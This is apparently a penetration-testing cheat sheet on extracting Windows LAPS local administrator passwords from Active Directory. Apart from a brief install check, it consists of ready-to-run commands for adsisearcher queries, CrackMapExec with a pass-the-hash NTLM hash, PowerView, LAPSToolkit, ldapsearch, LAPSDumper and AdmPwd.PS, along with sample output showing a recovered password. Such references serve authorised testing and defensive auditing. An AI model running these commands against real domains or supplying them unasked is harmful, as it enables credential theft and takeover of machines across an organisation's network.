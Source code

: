 # LAPS Passwords

{% hint style="info" %}
Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
{% endhint %}

## **Determine if LAPS is installed**

```
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

## **Extract LAPS password**

{% hint style="info" %}
The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
{% endhint %}

### adsisearcher (native binary on Windows 8+)

```
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
```

### CrackMapExec

```
crackmapexec smb 10.10.10.10 -u user -H 8846f7eaee8fb117ad06bdd830b7586c -M laps
```

### Powerview

```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```

### LAPSToolkit

#### [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

```
$ Get-LAPSComputers
ComputerName                Password                                 Expiration         
------------                --------                                 ----------         
exmaple.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

$ Find-LAPSDelegatedGroups
$ Find-AdmPwdExtendedRights
```

### ldapsearch

```
ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
```

### LAPSDumper

[**https://github.com/n00py/LAPSDumper**](https://github.com/n00py/LAPSDumper)

```
python laps.py -u user -p password -d domain.local
python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### Powershell AdmPwd.PS

```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
